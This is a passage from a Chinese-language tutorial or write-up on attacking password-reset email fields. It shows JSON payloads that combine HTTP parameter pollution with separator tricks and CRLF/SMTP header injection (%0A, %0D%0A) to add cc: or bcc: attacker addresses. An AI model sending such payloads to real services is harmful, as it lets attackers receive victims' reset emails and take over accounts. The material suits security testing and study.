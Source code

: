     // Semiclon saperator with HPP chain  
    {"email":"Victim@gmail.com;Attacker@gmail.com","email":"Victim@gmail.com"}  
    {"email":"Victim@gmail.com","email":"Victim@gmail.com;Attacker@gmail.com"}  
    // Space saperator with HPP chain  
    {"email":"Victim@gmail.com%20Attacker@gmail.com","email":"Victim@gmail.com"}  
    {"email":"Victim@gmail.com","email":"Victim@gmail.com%20Attacker@gmail.com"}  
    

分号分隔符

![](https://gitee.com/fuli009/images/raw/master/public/20230307183114.png)

img_12.png

空格分隔符

![](https://gitee.com/fuli009/images/raw/master/public/20230307183118.png)

img_13.png

因此,旧版本中的`$to`参数被注入到“to:”报头中,没有任何针对SMTP报头注入攻击的保护,所以让我们尝试一下:

### CRLF注入

> 注意：在Unix系统中，我们可以只添加 \n 作为换行符来进行SMTP头的注入，但在windows系统中，你需要添加 \r\n
> 来进行SMTP头的注入攻击。

Unix系统(`\n` url-encoded)

    
    
    // Carbon Copy (CC:) with HPP chain  
    {"email":"Victim@mail.com%0Acc:Attacker@mail.com","email":"Victim@mail.com"}  
    {"email":"Victim@mail.com","email":"Victim@mail.com%0Acc:Attacker@mail.com"}  
      
    // Blind Carbon Copy (BCC:) with HPP chain  
    {"email": "Victim@mail.com%0Abcc:Attacker@mail.com","email":"Victim@mail.com"}  
    {"email":"Victim@mail.com","email":"Victim@mail.com%0Abcc:Attacker@mail.com"}  
    

Windows系统(`\r\n` url-encoded)

    
    
    // Carbon Copy (CC:) with HPP chain  
    {"email":"Victim@mail.com%0D%0Acc:Attacker@mail.com","email":"Victim@mail.com"}  
    {"email":"Victim@mail.com","email":"Victim@mail.com%0D%0Acc:Attacker@mail.com"}  
      
    // Blind Carbon Copy (BCC:) with HPP chain  
    {"email": "Victim@mail.com%0D%0Abcc:Attacker@mail.com","email":"Victim@mail.com"}  
    {"email":"Victim@mail.com","email": "Victim@mail.com%0D%0Abcc:Attacker@mail.com"}  
    

![](https://gitee.com/fuli009/images/raw/master/public/20230307183122.png)

img_14.png

也没有作用

如果版本稍微新一点，并且在`$to`参数中存在防止CRLF注入或SMTP头注入的保护措施呢？
